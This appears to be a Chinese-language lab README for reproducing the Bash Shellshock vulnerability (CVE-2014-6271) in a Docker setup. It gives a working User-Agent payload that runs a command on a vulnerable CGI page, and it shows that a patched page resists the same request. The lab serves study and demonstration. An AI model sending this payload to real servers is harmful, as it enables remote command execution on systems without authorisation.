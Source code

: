 # Bash Shellshock 破壳漏洞（CVE-2014-6271）

编译运行：

```
docker compose up -d
```

服务启动后，有两个页面`http://your-ip:8080/victim.cgi`和`http://your-ip:8080/safe.cgi`。其中safe.cgi是最新版bash生成的页面，victim.cgi是bash4.3生成的页面。

将payload附在User-Agent中访问victim.cgi：

```
User-Agent: () { foo; }; echo Content-Type: text/plain; echo; /usr/bin/id
```

命令成功被执行：

![](1.png)

同样的数据包访问safe.cgi，不受影响：

![](2.png)
